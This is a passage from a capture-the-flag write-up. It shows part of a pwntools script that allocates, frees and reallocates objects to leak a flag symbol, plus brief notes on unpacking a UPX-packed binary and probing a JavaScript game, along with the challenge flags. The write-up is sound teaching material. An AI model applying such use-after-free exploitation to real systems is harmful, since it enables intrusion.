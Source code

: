 ```py

    p.sendline(b'2')
    p.sendline(str(id))
    p.sendline(name)
    p.sendline(str(style))

def free_org(p, id):
    p.clean()
    p.sendline(b'3')
    p.sendline(str(id))

def print_info(p, pid, oid):
    p.clean()
    p.sendline(b'4')
    p.sendline(str(pid))
    p.sendline(str(oid))

alloc_person(p, 0, 1, 2)
alloc_org(p, 0)
free_org(p, 0)

alloc_person(p, 1, elf.sym.ezflag, 0)
print_info(p, 0, 0)
p.interactive()
```

Run it on remote, and we get the flag.

`grey{u_are_feeling_good?}`

---

## RE/Misc

### parcel

`strings ./parcel -n 8`

gives you smtg abt upx

`tldr upx`

to decompress, `upx -d ./parcel`

`r2 parcel`

run the binary then use r2 to find the various addresses

`grey{d1d_y0u_us3_nm_0r_objdump_0r_gdb_0r_ghidra_0r_rizin_0r_ida_0r_binja?}`

### flappy.js

`window`

lists all global properties

